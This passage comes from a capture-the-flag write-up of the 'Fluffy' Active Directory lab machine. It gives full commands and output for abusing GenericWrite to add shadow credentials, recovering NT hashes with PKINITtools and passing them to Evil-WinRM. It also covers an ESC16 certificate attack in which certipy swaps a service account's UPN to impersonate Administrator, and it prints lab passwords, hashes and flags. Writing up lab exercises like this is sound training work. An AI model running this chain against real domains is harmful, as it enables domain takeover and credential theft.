GroupDistinguishedName      : CN=Service Accounts,CN=Users,DC=fluffy,DC=htb
MemberDomain                : fluffy.htb
MemberName                  : ldap_svc
MemberDistinguishedName     : CN=ldap service,CN=Users,DC=fluffy,DC=htb
MemberSID                   : S-1-5-21-497550768-2797716248-2627064577-1104

GroupDomainName             : Service Accounts
GroupDistinguishedName      : CN=Service Accounts,CN=Users,DC=fluffy,DC=htb
MemberDomain                : fluffy.htb
MemberName                  : p.agila
MemberDistinguishedName     : CN=Prometheus Agila,CN=Users,DC=fluffy,DC=htb
MemberSID                   : S-1-5-21-497550768-2797716248-2627064577-1601

GroupDomainName             : Service Accounts
GroupDistinguishedName      : CN=Service Accounts,CN=Users,DC=fluffy,DC=htb
MemberDomain                : winrm_svc
MemberName                  : winrm_svc
MemberDistinguishedName     : CN=winrm service,CN=Users,DC=fluffy,DC=htb
MemberSID                   : S-1-5-21-497550768-2797716248-2627064577-1603

```

This enables **P.Agila**  to gain generic write over all the members of groups aka the interesting service groups. We can abuse by:  
\- Last resort is password resetting

\- Adding a SPN and kerbeoasting but we already did that,

\- Another viable option is the Shadow credentials.

So what I will do I will use bloodyAD to add the attrribute that allows the Windows hello for business login.

```
└─# bloodyAD --host 10.10.11.69 -u 'p.agila' -p 'prometheusx-303' -d 'fluffy.htb' add shadowCredentials winrm_svc
[+] KeyCredential generated with following sha256 of RSA key: 59313526758d63e29c1c4ff5123058b35f5d3ef3794ae6e1523b6aeea7f4196c
No outfile path was provided. The certificate(s) will be stored with the filename: JjgcSH7C
[+] Saved PEM certificate at path: JjgcSH7C_cert.pem
[+] Saved PEM private key at path: JjgcSH7C_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem JjgcSH7C_cert.pem -key-pem JjgcSH7C_priv.pem fluffy.htb/winrm_svc JjgcSH7C.ccache

```

And now show be able to obtain the account RC4 hash that can be used to perform a Pass the hash technique and login to the winRM. First we need to obtain the TGT:

```
python3 ../Tools/PKINITtools/gettgtpkinit.py -cert-pem JjgcSH7C_cert.pem -key-pem JjgcSH7C_priv.pem fluffy.htb/winrm_svc JjgcSH7C.ccache

└─#: command not found
[+]: command not found
No: command not found
[+]: command not found
[+]: command not found
A: command not found
Command 'Run' not found, did you mean:
  command 'zun' from deb python3-zunclient
Try: apt install <deb name>
2025-05-30 01:22:57,108 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-30 01:22:57,115 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT

2025-05-30 01:23:17,112 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-30 01:23:17,112 minikerberos INFO     6547f0328967d02d32df4bc83c4617605be8d2a8b845a70b27ca0113354506ed
INFO:minikerberos:6547f0328967d02d32df4bc83c4617605be8d2a8b845a70b27ca0113354506ed
2025-05-30 01:23:17,113 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```

And now with the TGT we should be able to obtain the password hash of the user... Remeber to point to the kerberost TGT ccache otherwise the attack will fail.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Fluffy]
└─# export KRB5CCNAME=/home/millycash/Downloads/Fluffy/JjgcSH7C.ccache
                                                                                                                                                                                                                                               
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Fluffy]
└─# klist
Ticket cache: FILE:/home/millycash/Downloads/Fluffy/JjgcSH7C.ccache
Default principal: winrm_svc@FLUFFY.HTB

Valid starting       Expires              Service principal
05/30/2025 01:23:17  05/30/2025 11:23:17  krbtgt/FLUFFY.HTB@FLUFFY.HTB
                                                                                                                                                                                                                                               
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Fluffy]
└─# python3 ../Tools/PKINITtools/getnthash.py -key 6547f0328967d02d32df4bc83c4617605be8d2a8b845a70b27ca0113354506ed fluffy.htb/winrm_svc
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/millycash/Downloads/Fluffy/../Tools/PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/millycash/Downloads/Fluffy/../Tools/PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
33bd09dcd697600edf6b3a7af4875767

```

And now we can login with this account:



And gain access to our first flag baby!

```
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> ls


    Directory: C:\Users\winrm_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/28/2025   4:06 PM             34 user.txt


*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> cat user.txt
17f1a64d906443467a4d38e155f5c97e
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> 

```

&nbsp;

# Road to root.txt

&nbsp;Now judging by the current users that has ever logged in I don't see anything more which make me think that Administrator must be obtained in "one-go" because we do not need to get any other users.

```
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/17/2025   8:54 AM                .NET v2.0
d-----        4/17/2025   8:54 AM                .NET v2.0 Classic
d-----        4/17/2025   8:54 AM                .NET v4.5
d-----        4/17/2025   8:54 AM                .NET v4.5 Classic
d-----        5/19/2025   7:57 PM                Administrator
d-----        4/17/2025   8:54 AM                Classic .NET AppPool
d-----        5/16/2025   7:36 AM                p.agila
d-r---        4/17/2025   8:45 AM                Public
d-----        5/17/2025  11:53 AM                winrm_svc


```

Here we have 2 viable options:  
\- Try to get LDAP service account and this might allow us to perform some kind of manipulation on the Domain?

\- Try to get the CA service account and this should allow us to manage the CA and escalate via that way?

&nbsp;I will set the shadow credentials flag on both the 2 missing accouunts I want to reach:

```
└─# bloodyAD --host 10.10.11.69 -u 'p.agila' -p 'prometheusx-303' -d 'fluffy.htb' add shadowCredentials ldap_svc
[+] KeyCredential generated with following sha256 of RSA key: 2453a4791394631f37729e0c715d7d535ed54c82138148920e10557a5de560e3
No outfile path was provided. The certificate(s) will be stored with the filename: wOqGvm8e
[+] Saved PEM certificate at path: wOqGvm8e_cert.pem
[+] Saved PEM private key at path: wOqGvm8e_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem wOqGvm8e_cert.pem -key-pem wOqGvm8e_priv.pem fluffy.htb/ldap_svc wOqGvm8e.ccache
                                                                                                                   
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Fluffy]
└─# bloodyAD --host 10.10.11.69 -u 'p.agila' -p 'prometheusx-303' -d 'fluffy.htb' add shadowCredentials ca_Svc  
[+] KeyCredential generated with following sha256 of RSA key: c2ae1095fd65629cb428b29e1c297d7c42ca196d954b9e6be6bd112617e14ac3
No outfile path was provided. The certificate(s) will be stored with the filename: SGCZ19L0
[+] Saved PEM certificate at path: SGCZ19L0_cert.pem
[+] Saved PEM private key at path: SGCZ19L0_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem SGCZ19L0_cert.pem -key-pem SGCZ19L0_priv.pem fluffy.htb/ca_Svc SGCZ19L0.ccache

```

And request both TGTs:

```
└─# python3 ../Tools/PKINITtools/gettgtpkinit.py -cert-pem wOqGvm8e_cert.pem -key-pem wOqGvm8e_priv.pem fluffy.htb/ldap_svc wOqGvm8e.ccache
2025-05-30 02:18:51,222 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-30 02:18:51,229 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-30 02:19:10,732 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-30 02:19:10,732 minikerberos INFO     bbdc7760fa68bbca6fce2b33e9e5abd5ac2c26cfd7fb65c604a416f7e1f5743f
INFO:minikerberos:bbdc7760fa68bbca6fce2b33e9e5abd5ac2c26cfd7fb65c604a416f7e1f5743f
2025-05-30 02:19:10,734 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
                                                                                                                                                                                                                                               
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Fluffy]
└─# python3 ../Tools/PKINITtools/gettgtpkinit.py -cert-pem SGCZ19L0_cert.pem -key-pem SGCZ19L0_priv.pem fluffy.htb/ca_Svc SGCZ19L0.ccache  
2025-05-30 02:19:18,943 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-30 02:19:18,949 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-30 02:19:19,055 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-30 02:19:19,055 minikerberos INFO     16e59bc10626ea99ff83eab1d96a9f7d59f988713e8d60ec880eda9fedf7afd2
INFO:minikerberos:16e59bc10626ea99ff83eab1d96a9f7d59f988713e8d60ec880eda9fedf7afd2
2025-05-30 02:19:19,056 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```

Indeed I was right this allows us to gain generic access over the DC01 machine!



And now we have the NTLM hash for the CA service account:

```
─# python3 ../Tools/PKINITtools/getnthash.py -key 16e59bc10626ea99ff83eab1d96a9f7d59f988713e8d60ec880eda9fedf7afd2 fluffy.htb/ca_svc 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/millycash/Downloads/Fluffy/../Tools/PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/millycash/Downloads/Fluffy/../Tools/PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
ca0f4f9e9eb8a092addf53bb03fc98c8

```

Now going back to certipy I can see it it vulnerable to ESC16?

```
└─# certipy-ad find  -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The DNS query name does not exist: DC01.fluffy.htb.
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates

```

We can first read it's settings, we will use P.agila who has **GENERICALL** over the service account and we will tamper CA_SVC to impersonate as Admistrator.

```
└─# certipy-ad account -u p.agila@fluffy.htb -p 'prometheusx-303' -user ca_svc read 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-05-30T00:17:26+00:00
                                                                                                         
```

And now can we update it's UPN:

```
─# certipy-ad account -u p.agila@fluffy.htb -p 'prometheusx-303' -user ca_svc -upn Administrator update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_svc'
                                                                                                                   
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Fluffy]
└─# certipy-ad account -u p.agila@fluffy.htb -p 'prometheusx-303' -user ca_svc read                     
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : Administrator
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-05-30T00:54:03+00:00

```

Now we should be able to use the victim account to abuse the lack of certification binding resulting in a certificate requested by CA_SVC but since the UPN is matching to Administrator we are receiving the admin certificate.

```
└─# certipy-ad req -dc-ip '10.10.11.69' -target 'DC01.FLUFFY.HTB' -ca 'fluffy-DC01-CA' -u ca_svc@fluffy.htb -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -template 'User'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 30
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

```

Now we must rollback back to the right UPN othwerwise the authentication will fail..

```
└─# certipy-ad account -u p.agila@fluffy.htb -p 'prometheusx-303' -user ca_svc -upn ca_svc update                    
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc
[*] Successfully updated 'ca_svc'
                                                                                                                                                                                                                                               
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Fluffy]
└─# certipy-ad account -u p.agila@fluffy.htb -p 'prometheusx-303' -user ca_svc read                                                                
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-05-30T01:06:12+00:00
                                                                                                                           
```

Conseguently we can obtain the TGT ticket and the NTLM hash that can be obtained in one go:

```
└─# certipy-ad auth -dc-ip 10.10.11.69 -pfx administrator.pfx -username Administrator -domain fluffy.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e

```

And the machine is done and dusted!

```
└─# evil-winrm -i fluffy.htb -u Administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> ls


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/28/2025   4:06 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
778c77faf55536daba73e82e5d173a77
*Evil-WinRM* PS C:\Users\Administrator\desktop> 


```
